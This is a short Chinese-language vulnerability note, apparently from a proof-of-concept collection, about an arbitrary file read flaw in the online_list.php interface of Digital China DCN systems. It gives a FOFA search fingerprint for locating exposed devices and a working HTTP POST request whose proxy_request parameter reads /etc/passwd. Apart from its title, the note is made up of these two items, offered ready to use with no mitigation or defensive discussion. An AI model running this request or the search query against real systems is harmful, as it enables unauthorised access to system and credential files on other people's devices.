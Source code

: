 # 神州数码DCN系统接口online_list.php存在任意文件读取漏洞

神州数码DCN系统接口online_list.php存在任意文件读取漏洞

## fofa

```javascript
body="style/blue/css/dcn_ui.css"
```

## poc

```javascript
POST /function/auth/user/online_list.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

proxy_request=/etc/passwd
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412181058717.webp)